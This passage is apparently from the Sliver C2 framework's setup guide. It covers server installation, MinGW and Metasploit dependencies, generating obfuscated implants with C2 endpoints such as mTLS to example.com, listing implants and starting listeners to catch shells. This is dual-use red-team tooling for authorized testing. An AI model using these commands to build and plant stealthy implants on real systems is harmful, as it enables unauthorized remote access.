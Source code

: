 ## Server Setup

The server supports Linux, Windows, and MacOS however we recommend running the server on a Linux host, some features may be more difficult to get working on a Windows or MacOS server but all basic built-in functionality should work fine.

Download the latest [release](https://github.com/BishopFox/sliver/releases) for your platform, and just run the binary. The first time you run the server it'll need to unpack some assets, which may take a minute or two, subsequent start ups should be faster.

__NOTE:__ Sliver has two external dependancies for optional features: MinGW and Metasploit. To enable shellcode/staged payloads you need to install MinGW. To enable MSF integrations you'll need Metasploit installed.

The `Dockerfile` build of Sliver includes both MinGW and Metasploit, but if you plan to run the server using Docker you'll need to forward the appropriate TCP ports (e.g. 80, 443, 31337) yourself.


### MinGW Setup

In order to enable shellcode/staged/DLL payloads you'll need to install MinGW on the server (clients connecting to the server do not need it installed). By default Sliver will look in the usual places for MinGW binaries but you can override this using the [environment variable](https://github.com/BishopFox/sliver/wiki/Environment-Variables) `SLIVER_CC`.

#### Linux

```
apt-get install mingw-w64 binutils-mingw-w64 g++-mingw-w64
```

#### MacOS

```
brew install mingw-w64
```

### Metasploit Setup

We strongly recommend using the [nightly framework installers](https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers), Sliver expects version 5 or later.

## Generating Implants

Generating implants is done using the `generate` command, you must specify at least one C2 endpoint using `--mtls`, `--http`, or `--dns`. Note that when an implant attempts to connect to an endpoint specified using `--http` it will try both HTTPS and then HTTP (if HTTPS fails). We recommend using mutual TLS (`--mtls`) whenever possible. You can also specify an output directory with `--save`, by default the implant will be saved to the current working directory.

```
sliver > generate --mtls example.com --save /Users/moloch/Desktop

[*] Generating new windows/amd64 Sliver binary
[*] Symbol obfuscation is enabled, this process takes about 15 minutes
[*] Build completed in 00:10:16
[*] Sliver binary saved to: /Users/moloch/Desktop/NEW_GRAPE.exe

```

__IMPORTANT:__ The symbol obfuscation process can take 15+ mintues to complete depending on your server's CPU resources. You can skip this step with `--skip-symbols` but a lot of sketchy information will end up in the binaries that get generated. You should only use this flag if you're just playing around, or do not care about stealth.

The server will also assign codenames to each generated binary i.e. `NEW_GRAPE.exe` you can rename file to anything you need to but these codenames will still uniquely identify the generated binary. You can also view all previously generated implant binaries with the `slivers` command:

```
sliver > slivers

Name                    OS/Arch        Debug  Format
====                    =======        =====  ======
CAUTIOUS_PANPIPE        darwin/amd64   false  EXECUTABLE
LATE_SUBCOMPONENT       windows/amd64  false  SHARED_LIB
RUBBER_PRINTER          windows/amd64  true   SHARED_LIB
RACIAL_SPECTACLES       darwin/amd64   false  EXECUTABLE
MATHEMATICAL_SASH       darwin/amd64   true   SHARED_LIB
MUSHY_TRADITIONALISM    windows/amd64  false  SHARED_LIB
SICK_SPY                darwin/amd64   false  EXECUTABLE
```

If you need to redownload a previously generated implant use the `regenerate` command:

```
sliver > regenerate --save /Users/moloch/Desktop/ NEW_GRAPE

[*] Sliver binary saved to: /Users/moloch/Desktop/NEW_GRAPE.exe
```


## Getting Shells

Before you can catch the shell, you'll first need to start a listener. You use the commands `mtls`, `http`, and `dns` to start listeners for each protocol (`http` is also used for HTTPS). You can use the `jobs` command to view and manage listeners running in the background.

```
sliver > mtls

[*] Starting mTLS listener ...
[*] Successfully started job #1

sliver > jobs

ID  Name  Protocol  Port
==  ====  ========  ====
1   mTLS  tcp       8888

sliver >
```


